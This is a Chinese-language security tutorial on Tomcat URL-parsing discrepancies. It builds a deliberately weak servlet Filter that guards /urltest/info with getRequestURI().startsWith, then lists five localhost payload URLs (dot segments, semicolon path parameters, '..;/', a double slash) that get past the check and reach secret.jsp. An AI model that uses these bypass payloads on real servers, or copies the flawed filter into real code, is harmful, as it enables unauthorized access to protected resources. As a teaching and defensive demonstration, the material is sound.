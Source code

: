 Tomcat URL 解析差异性攻击利用
-----------------------------

看个访问限制绕过的场景。

假设Tomcat上启动的Web目录下存在一个info目录，其中有一个secret.jsp文件，其中包含敏感信息等：

    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Secret</title>
    </head>
    <body>
    username: mi1k7ea<br>
    password: 123456<br>
    address: china<br>
    phone: 13666666666<br>
    </body>
    </html>

新建一个filter包，其中新建一个testFilter类，实现Filter接口类：

    package filter;

    import javax.servlet.*;
    import javax.servlet.http.*;
    import java.io.IOException;

    public class testFilter implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
            HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;

            String url = httpServletRequest.getRequestURI();

            if (url.startsWith("/urltest/info")) {
                httpServletResponse.getWriter().write("No Permission.");
                return;
            }

            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

这个Filter作用是：只要访问/urltest/info目录下的资源，都需要进行权限判断，否则直接放行。可以看到，这里调用getRequestURI()函数来获取请求中的URL目录路径，然后调用startsWith()函数判断是否是访问的敏感目录，若是则返回无权限的响应。当然这里写得非常简单，只做演示用。

编辑web.xml，添加testFilter设置：

    <?xml version="1.0" encoding="UTF-8"?>
    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
             version="4.0">
        <filter>
            <filter-name>testFilter</filter-name>
            <filter-class>filter.testFilter</filter-class>
        </filter>
        <filter-mapping>
            <filter-name>testFilter</filter-name>
            <url-pattern>/*</url-pattern>
        </filter-mapping>
    </web-app>

运行之后，访问`http://localhost:8080/urltest/info/secret.jsp`，会显示无权限：

![](./resource/TomcatURL解析差异性攻击利用/media/rId21.png)

根据前面的分析构造如下几个payload都能成功绕过认证限制来访问：

    http://localhost:8080/urltest/./info/secret.jsp
    http://localhost:8080/urltest/;mi1k7ea/info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/../info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/..;/info/secret.jsp
    http://localhost:8080//urltest/info/secret.jsp

![](./resource/TomcatURL解析差异性攻击利用/media/rId22.png)

整个的过程大致如此，就是利用解析的差异性来绕过认证
